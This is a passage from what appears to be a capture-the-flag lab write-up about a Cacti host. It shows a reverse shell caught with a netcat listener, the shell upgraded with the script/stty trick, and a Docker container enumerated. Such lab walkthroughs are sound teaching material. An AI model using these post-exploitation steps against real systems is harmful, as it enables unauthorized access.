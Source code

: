 At `nc`, I get a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.211 57164
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@50bca5e748b0:/var/www.md$ 



I'll upgrade my shell using the [stty /
script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:



    www-data@50bca5e748b0:/var/www.md$ script /dev/null -c bash        
    Script started, output log file is '/dev/null'.                      
    www-data@50bca5e748b0:/var/www.md$ ^Z                              
    [1]+  Stopped                 nc -lnvp 443                           
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443                                                         
                reset                                                    
    reset: unknown terminal type unknown                                 
    Terminal type? screen                                                
    www-data@50bca5e748b0:/var/www.md$



## Shell as marcus

### Enumeration

#### Docker

This is a stripped down host, and not the one with the outward facing IP
of 10.10.11.211. It seems like a Docker container:

-   The hostname is just random hex, `50bca5e748b0`.
-   Command s like `ip`, `ifconfig`, and `ping` are not installed.
-   The IP is 172.19.0.3 (as seen in `/proc/net/fib_trie`).
-   There's a `.dockerenv` file in `/`.

#### Web

Cacti is homed in `/var/www.md`:


    www-data@50bca5e748b0:/var/www.md$ ls           
    CHANGELOG                   cli                        graph_templates.php         managers.php            rrdcleaner.php
    LICENSE                     clog.php                   graph_templates_inputs.php  mibs                    script_server.php
    README.md                   clog_user.php              graph_templates_items.php   permission_denied.php   scripts
    about.php                   cmd.php                    graph_view.php              plugins                 service
    aggregate_graphs.php        cmd_realtime.php           graph_xport.php             plugins.php             service_check.php
    aggregate_items.php         color.php                  graphs.php                  poller.php              settings.php
    aggregate_templates.php     color_templates.php        graphs_items.php            poller_automation.php   sites.php
    auth_changepassword.php     color_templates_items.php  graphs_new.php              poller_boost.php        snmpagent_mibcache.php
    auth_login.php              data_debug.php             help.php                    poller_commands.php     snmpagent_mibcachechild.php